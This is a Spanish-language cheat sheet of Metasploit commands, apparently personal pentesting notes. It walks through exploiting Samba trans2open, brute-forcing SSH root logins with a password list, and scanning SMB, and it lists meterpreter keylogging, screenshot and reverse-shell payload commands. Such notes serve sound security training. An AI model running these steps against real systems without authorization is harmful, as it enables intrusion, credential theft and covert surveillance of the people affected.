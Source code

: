 # Metasploit 

Tags: #Comandos #Metasploit #Payloads #Msfvenom

Sintax: 
	RHOSTS = Remote Host (The target IP)
	LHOST = Local host (Our IP)

* Para verificar la DB del Metasploit y despues entrar (Cuando se ejecuta por primera vez)
```bash 
❯ msfdb run
```

* Ejecutar Metasploit
```bash 
❯ msfconsole -q         # q = Quitar el banner de inicio
```

* Comandos de Metasploit dentro de la maquina victima 
```bash 
❯ help                  # Miramos el panel de ayuda
❯ shell                 # Nos regresa una Shell para interactuar mejor 
❯ screenshot            # Captura de pantalla del esquipo
❯ keyscan_start         # Sniffer de pulsaciones del teclado
❯ keyscan_dump          # Nos muestra lo que capturo por el teclado con el comando anterior
❯ background            # Ponemos la sesion en segundo plano 
❯ sessions              # Miramos las sesiones activas en segundo plano 
```

- **msfconsole -q** Iniciamos metasploit (q=no cargue el banner)
**❯ search ❮exploit❯** Buscamos el exploit
		* Modulos: 'Auxiliary, Exploits, Post, Payload'
		* Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'
**❯ use ❮Number or path❯** Colocamos el numero del exploit que vamos a usar
**❯ options** Miramos las opciones del exploit y lo que debemos de configurar
**❯ set LHOST IP_addres** Configuramos el IP local (Si estamos en una VPN colocar el Tun0)
**❯ set RHOSTS IP_addres** Configuramos el IP remoto (maquina victima)
**❯ set RPORT** **#Puerto** Configuramos el puerto remoto (maquina victima)
**❯ set LPORT** **#Puerto** Configuramos el puerto local
**❯ show targets** Miras los targets disponibles (Diferentes versiones de Windows)
**❯ set target** **numero** Seleccionamos el numero de target a usar
**❯ show payloads** Miramos los payload disponibles


**Payloads**
Non-Stage -> Sends exploit shellcode all at once. Larger in size ando won't always work -> **windows/meterpreter_reverse_tcp**
Staged -> Sends payload in stages. Can be less stable -> **windows/meterpreter/reverse_tcp**

En este caso utilizaremos Metasploit para poder entrar por Samba 2.2
❯ **msfconsole** 
	❯ **search trans2open**
	❯ **use 1**
	❯ **options**
	❯ **set RHOST 192.168.68.112**
	❯ **run o exploit**
Miramos en options que esta ejecutado un **staged payload** ya que tenemos un **linux/x86/meterpreter/reverse_tcp**
Si no funciona podriamos hacer lo siguiente y buscaremos un **Non-staged payload**
❯ **set payload linux/x86/** Antes de completar el payload, podemos darle doble TAB para ver las opciones y los demas Payloads
❯ **set payload linux/x86/shell_reverse_tcp** 
❯ **options** 
❯ **run** Ejecutamos  


Tambien podemos usar Metasploit para explotar el SSH
❯ **msfconsole** 
	❯ **search ssh**
	❯ **use 17** Usaremos el que dice SSH_login
	❯ **options**
	❯ **set username root** Colocaremos el usuario de root
	❯ **set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt** Colocamos la ruta del diccionario 
	❯ **set rhosts 192.168.68.112** Colocamos la IP del target
	❯ **set threads 10** Para que vaya mas rapido al momento de mandar las solicitudes
	❯ **run** Ejecutamos el exploit


- **msfconsole** Para iniciar metaesploit para escanear **SMB**
	❯ **search smb** En este caso buscaremos exploits de SMB, podemos encontrar:
		* Modulos: 'Auxiliary, Exploits, Post, Payload'
		* Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'
	❯ **use <module#>** Para usar el modulo, lo podremos hacer con la ruta o con el numero 
	❯ **info** Mirar la informacion del modulo
	❯ **options** Para ver las opciones del modulo y ver que necesitamos colocar para que funcione correctamente
	❯ **set RHOSTS <IP.Address>** Colocamos la IP target en el modulo
	❯ **run** Para ejecutar el exploit

Lista de exploits:
-   **samba 3.0.20** Para smb de los puertos 445/139

**❯ shell** Dentro del exploit con shell nos podemos conseguir una consola interactiva

